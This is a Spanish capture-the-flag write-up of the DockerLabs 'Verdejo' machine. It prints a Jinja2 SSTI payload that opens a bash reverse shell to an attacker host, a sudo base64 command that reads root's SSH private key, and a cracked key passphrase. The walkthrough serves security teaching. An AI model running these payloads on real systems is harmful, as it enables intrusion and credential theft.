



## Introduction 

En este WriteUp, abordaremos la máquina Verdejo de la plataforma **[DockerLabs](https://dockerlabs.es/)**, máquina creada por **[TheHackersLabs](https://thehackerslabs.com/)**. Nos encontraremos con una página web vulnerable a SSTI (Server Side Template Injection) y mediante (root) NOPASSWD: /usr/bin/base64 podremos leer la clave de ssh id_rsa del usuario root. Haremos uso de ssh2john para extraer el hash y con John The Ripper podremos crackear y obtener la clave que nos permitirá acceder como root al sistema.

```json
Platform: DockerLabs
Level: Easy
OS: Linux
```

## Reconnaissance

~~~
Target: 172.17.0.2
~~~

Inicialmente, usamos el comando **Ping**. Este utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. **Ping** envía un mensaje de “echo request” a una **dirección IP** y espera recibir un mensaje de “echo response” en respuesta. Este proceso nos permite verificar si una máquina en la red es accesible y medir la latencia. Podemos inferir que es una máquina **Linux** debido a que el **ttl = 64**


## Scanning 

Como vemos, el paquete fue recibido por la máquina victima. Una vez verificada la conexión, empezamos a realizar un escaneo de multiples etapas con la herramienta **Nmap**. Primero, haremos un escaneo de puertos abiertos.


Vemos que tenemos los puertos **22/SSH**, **80/HTTP** y **8089/unknown**. Procedemos a hacer un escaneo más detallado de los mismos con el fin de obtener más información. Esto lo haremos con la flag `-sCV`


## Enumeration

**22/SSH**
El puerto 22 ejecuta el servicio SSH versión **OpenSSH 9.2p1**. De momento no tenemos ninguna vulnerabilidad que aprovechar para esta versión.

**80/HTTP**
El puerto 80 ejecuta un servidor web **Apache/2.4.59**. Por lo visto es la página default de Apache.

**8089/Unknown**
Por lo visto el puerto 8089 ejecuta lo que es la página web por lo cual podemos inferir que para acceder a ella necesitamos indicar el puerto. Vemos que útiliza **Werkzeug/2.2.2** y **Python/3.11.2** 

Al acceder al sitio efectivamente nos lleva a la página web default de Apache.


Al hacer **Web fuzzing** utilizando **Gobuster** en busca de archivos y directorios ocultos no encontramos nada interesante.



Haremos uso de **whatweb** para obtener más información acerca del sitio web está vez indicando el puerto **:8089** 


Como vemos nos índica que es accesible y al ingresar notamos un formulario.


Al enviar la palabra "Hola" notamos que la representa en el **DOM (Document Object Model)**


Intentamos ver si es vulnerable a **XSS (Cross-Site Scripting)** vulnerabilidad que permite a un atacante inyectar scripts maliciosos en páginas web. Ingresamos código JavaScript para ver como reacciona la página. 


Como vemos el servidor refleja la respuesta por lo que estamos ante **XSS Reflected (Reflejado)** 


Como no podemos obtener de manera directa **RCE (Remote Code Execution)** intentaremos **SSTI (Server-Side Template Injection)**, una vulnerabilidad que permite inyectar código en plantillas del lado del servidor. En primer lugar comprobaremos si es vulnerable indicando `{{7x7}}` y en caso de que responda de manera correcta el resultado de la multiplicación estariamos la vulnerabilidad **SSTI**


Como vemos, respondió **49** por lo efectivamente estamos ante **SSTI (Server-Side Template Injection)**


## Exploitation

Al leer acerca de está vunerabilidad en **[Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)** me centro más que nada en la sección de **Payloads de Python** debido a que, recordemos, el servidor web ejecutaba **Python/3.11.2**: Me encuentro está sección interesante que menciona **RCE (Remote Command Execution)**



Escribo el **Payload** de **Jinja2 (Un motor de plantillas con todas las funciones para Python)** en el formulario para ver si es efectivo 


Resulta que si, es vulnerable al payload de **Jinja2 (Python)** por lo que podemos inferir que ejecuta este motor de plantillas. 


Como podemos ejecutar comandos arbitrarios, podriamos hacer uso de una **reverse shell** y obtener **RCE**. El payload que usaremos es: 

~~~jinja2
{{ cycler.__init__.__globals__.os.popen("/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.10/1717 0>&1'").read() }} 
~~~


Luego de pondremos en escucha mediante **Netcat** en el puerto **1717** y al enviar el payload obtenemos acceso. Como vemos somos el usuario: **verde**


Realizamos el **tratamiento de la tty** para no tener ningún problema o inconveniente innecesario a la hora de usar la términal luego de la reverse shell.


## Privilege Escalation

Ejecutamos el comando `sudo -l` para listar los permisos **sudo** del usuario actual y como vemos nos indica que el usuario verde puede ejecutar el siguiente comando como super usuario sin la necesidad de contraseña: **(root) NOPASSWD: /usr/bin/base64


Según **[GTFObins](https://gtfobins.github.io)** el binario nos permite acceder a archivos del sistema como super usuario. 


- **`sudo base64 <FILE TO READ>`**: Este comando toma un archivo (reemplaza `<FILE TO READ>` con la ruta del archivo) y lo codifica en formato base64. Usar `sudo` permite ejecutar el comando con privilegios de superusuario, lo que puede ser necesario si el archivo requiere permisos especiales para ser leído.
    
- **`| base64 --decode`**: El operador `|` (pipe) toma la salida del primer comando (la representación base64 del archivo) y la pasa como entrada al segundo comando. `base64 --decode` decodifica esa representación base64 de vuelta a su forma original.

Intentaremos acceder a la **id_rsa** de **root** aprovechando el comando:

~~~
sudo /usr/bin/base64 /root/.ssh/id_rsa | base64 --decode
~~~


Como vemos tenemos la **clave privada** con lo cual podriamos acceder. Crearemos un archivo llamado **id_rsa** con el contenido de la **clave privada** en nuestra máquina local y le daremos permisos con `chmod 600 id_rsa` 


Al intentar ingresar al **SSH** del usuario **root** nos pide la key de la **id_rsa** por lo que necesitamos extraer el **hash** de la misma.


Extraemos el **hash** de la **id_rsa** con la herramienta **ssh2john**


Con **JohnTheRipper** crackeamos el hash para obtener la key de la **id_rsa** y vemos que es: **honda1**



Ahora al intentarlo nuevamente y escribir la **key** de la **id_rsa** vemos que ingresamos correctamente. 


Con **whoami && id** vemos que somos **root** por lo que tenemos control total del sitema y por lo tanto hemos finalizado la máquina.

<br>